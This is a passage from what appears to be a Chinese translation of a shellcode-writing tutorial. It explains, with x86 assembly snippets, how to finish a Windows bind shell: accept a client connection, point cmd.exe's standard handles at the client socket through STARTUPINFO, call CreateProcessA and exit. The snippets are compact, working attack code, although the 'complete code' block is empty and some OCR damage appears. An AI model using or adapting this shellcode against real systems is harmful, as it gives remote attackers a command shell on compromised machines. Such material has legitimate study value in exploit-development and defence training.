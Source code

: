 ```
 	test eax, eax 	;bind() and listen() return 0,
 					;accept() returns a SOCKET descriptor 
	jz call_loop 
```

还缺一点就要大功告成了，我们还要接受客户端的连接，把 cmd.exe 作为子进程运行起来，并且用客户端的 socket 作为这个进程的 std 句柄，最后正常退出。

CreateProcess 函数有 10 个参数，对我们而言，最关键的参数是 STARTUPINFO 结构体。就是这个结构体指明了“cmd”字符串，并把客户端的 socket 作为其 std 句柄。STARTUPINFO 的大多数成员变量都可以是 NULL，所以用栈区被置过 NULL 的区域来初始化这个结构体。我们需要把 STARTF_USESTDHANDLES 标志位设为 true，然后把客户端的socket（由 accept 函数返回，现在应该存在 eax 中）传给 hStdInput、hStdOutput 和 hStdError（其实如果不管 stderr，还可以节省出一条单字节指令）。
```asm

 	;initialise a STARTUPINFO structure at esp
inc byte ptr [esp + 0x2d] ;set STARTF_USESTDHANDLES to true
sub edi, 0x6c ;point edi at hStdInput in
 	;STARTUPINFO
stosd ;set client socket as the stdin
 	;handle
stosd ;same for stdout
stosd ;same for stderr (optional) 
```

最后就是调用 CreateProcess 函数。这段代码需要解释的东西不多，只要注意选取最短小精悍的指令就行。例如，由于栈中大片空间已经被设置 NULL，故可以用单字节的短指令“pop eax” 来为寄存器清零，而不是用两个字节的指令“xor eax, eax”；可以用单字节指令“push esp”来 压入一个 true，而不是双字节的指令“push 1”。由于 PROCESSINFORMATION 结构体是一个[out]型的参数，可以把它指向栈区的[in]参数STARTUPINFO 结构体。 

```asm
 pop eax ;set eax = 0 (STARTUPINFO now at esp + 4)
push esp ;use stack as PROCESSINFORMATION
 ;structure (STARTUPINFO now back to esp)
push esp ;STARTUPINFO structure
push eax ;lpCurrentDirectory = NULL
push eax ;lpEnvironment = NULL
push eax ;dwCreationFlags = NULL
push esp ;bInheritHandles = true
push eax ;lpThreadAttributes = NULL
push eax ;lpProcessAttributes = NULL
push esi ;lpCommandLine = "cmd"
push eax ;lpApplicationName = NULL
 call [esi - 0x1c] ;CreateProcessA 
```

现在，客户端已经能获得一个 shell 了，当然最后还要调用 exit 函数让程序能够正常地退出。
```
call [esi - 0x18] ;ExitProce–ss 
```

完整代码如下

```asm

```

最后，需要再次注意，这段代码假设 eax 指向 shellcode 的开始位置，在具体使用时可能还需稍作调整。
